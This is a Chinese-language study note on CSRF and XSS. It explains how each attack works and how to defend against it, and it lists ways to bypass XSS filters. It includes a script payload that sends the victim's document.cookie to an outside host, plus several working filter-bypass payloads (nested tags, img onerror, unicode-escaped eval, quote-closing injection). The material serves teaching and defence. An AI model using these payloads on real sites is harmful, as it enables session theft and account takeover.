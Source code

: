# XSRF(或叫做CSRF)和XSS
CSRF(Cross-site request forgery)跨站请求伪造：通过伪装来自受信任用户的请求来利用受信任的网站。
XSS(Cross Site Scripting)跨站脚本攻击
CSRF重点在请求,XSS重点在脚本

CSRF：网站过分信任用户，放任来自所谓通过访问控制机制的代表合法用户的请求执行网站的某个特定功能。
XSS：用户过分信任网站，放任来自浏览器地址栏代表的那个网站代码在自己本地任意执行。如果没有浏览器的安全机制限制，xss代码可以在用户浏览器为所欲为

* ### CSRF
    + CSRF攻击原理
        1. 用户登录受信任网站A，浏览器保存了A的Cookie
        2. 用户在没有登出A网站的情况下，访问危险网站B
        3. B在用户不知情的情况下向第三方站点A发起一个请求R
        4. 因为A没有做防止CSRF的措施，A无法判断请求是用户发出的还是其他站点发出的。
        5. 浏览器会自动带上用户在A网站的Cookie，所以A网站会当做用户在发起请求R。

        + 总结
        CSRF攻击是源于WEB的隐式身份验证机制！WEB的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的！

    + CSRF的防御
    一般在服务端进行CSRF防御，效果也比较好(客户端也可以)
    服务端的CSRF方式方法很多样，但总的思想都是一致的，就是在客户端页面增加伪随机数。
    （因为攻击者无法读取非同源站点的Cookie作为本次请求的参数，注意，是参数不是Cookie，浏览器还是会自动带上Cookie，服务器会验证参数和Cookie值是否相同）
        1. Cookie Hashing(所有表单都包含同一个伪随机值)：在表单里增加Hash值，以认证这确实是用户发送的请求。
        `<input type=”hidden” name=”hash” value=”<?=$hash;?>”>`
        2. One-Time Tokens(不同的表单包含一个不同的伪随机值，在页面上生成一个Token，发请求的时候把Token带上。处理请求的时候需要验证Cookies+Token。)
        3. 验证码：用户填写图片验证码，易用性不太好。


* ### XSS
    + 原理
        XSS本质是Html注入，和SQL注入差不多。
        XSS跨站攻击就是在网页里面埋入恶源代码，劫持用户的信息投递到预设的网站上去的一种黑客攻击手段。
        举个栗子：把网页比作一瓶液体，普通用户看来透明的应该可以喝，就直接喝了（访问），黑客XSS攻击者就相当于在水里投一种无色无味的毒药，你喝掉就被控制了，主动把身上的钱啊（cookie） 银行卡密码（存储的账号密码）啊都交了出来，甚至你自己还不知道。
        ```
        # 这里是一个表单输入框，正常应该输入一个地址，但是攻击者可能输入一段html代码，如：
        #   "/> <script>window.open("http://secquan.org/xss_hacker.php?cookie="+document.cookie);</script><!--
        <form>
        <input style="width:300px;" type="text" name="address1" value="<?php echo $_GET["address1"]; ?>" />
        <input type="submit" value="Submit" />  
        </form>

        # 于是，代码变为如下，目的是获取本机存储的该域名的cookie发送到另一个地址
        <form>
        <input style="width:300px;" type="text" name="address1" value=""/>
        <script>window.open("http://secquan.org/xss_hacker.php?cookie="+document.cookie);</script><!--" />
        <input type="submit" value="Submit" />  
        </form>
        ```

    + 类型
        + 反射型XSS，又称非持久型XSS：将恶意的脚本附加到URL地址的参数中，一般是将构造好的URL发给受害者，是受害者点击触发，而且只执行一次，非持久化。
        + 储存型XSS，也就是持久型XSS：攻击者事先讲恶意JavaScript代码上传或存储到漏洞服务器中，只要受害者浏览包含此恶意的代码的页面就会执行恶意代码。

    + 防范手段
        + 过滤：对诸如<script>、<img>、<a>等标签进行过滤。
        + 编码：像一些常见的符号，如<>在输入的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。
        + 限制：xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。

    + 绕过
        + 大小写绕过
        这个绕过方式的出现是因为网站仅仅只过滤了<script>标签，而没有考虑标签中的大小写并不影响浏览器的解释所致。
        
        + 利用过滤后返回语句再次构成攻击语句来绕过
        网站可能过滤了 script标签，我们可以在script关键字中间嵌套script标签，中间的script被过滤删除之后，剩下的内容正好又构造了一个script标签。
        例如：<sCri<script>pt>alert("hey!")</scRi</script>pt>
        
        + 利用其它标签
            + <img>：我们指定的图片地址不存在，就一定会发生错误，会执行onerror。
            http://192.168.1.102/xss/example4.php?name=<img src='w.123' onerror='alert("hey!")'>
            + <a onmousemove=’do something here’> ：当用户鼠标移动时即可运行代码
            + <div onmouseover=‘do something here’> ： 当用户鼠标在这个块上面时即可运行（可以配合weight等参数将div覆盖页面，鼠标不划过都不行）
        
        + 编码脚本代码绕过关键字过滤
        服务器往往会对代码中的关键字（如alert）进行过滤，这个时候我们可以尝试将关键字进行编码后再插入。
        不过直接显示编码是不能被浏览器执行的，我们可以用另一个语句eval（）来实现。eval()会将编码过的语句解码后再执行。
        例如alert(1)编码过后就是\u0061\u006c\u0065\u0072\u0074(1)。
        http://192.168.1.102/xss/example5.php?name=<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>

        + 主动闭合标签实现注入代码
        填入的参数放到了script脚本的变量里面，可以先加双引号将变量左边的双引号关闭，然后执行我们的脚本，然后再加双引号闭合原变量右边的双引号。
        ```
        # 访问 http://localhost:81/xss.php?name=hacker
        <script>
            var $a= "hacker";
        </script>

        # 此时不传hacker，改为 http://localhost:81/xss.php?name=";alert("I amcoming again~");"
        <script>
            var $a= "";alert("I amcoming again~");"";
        </script>
        ```
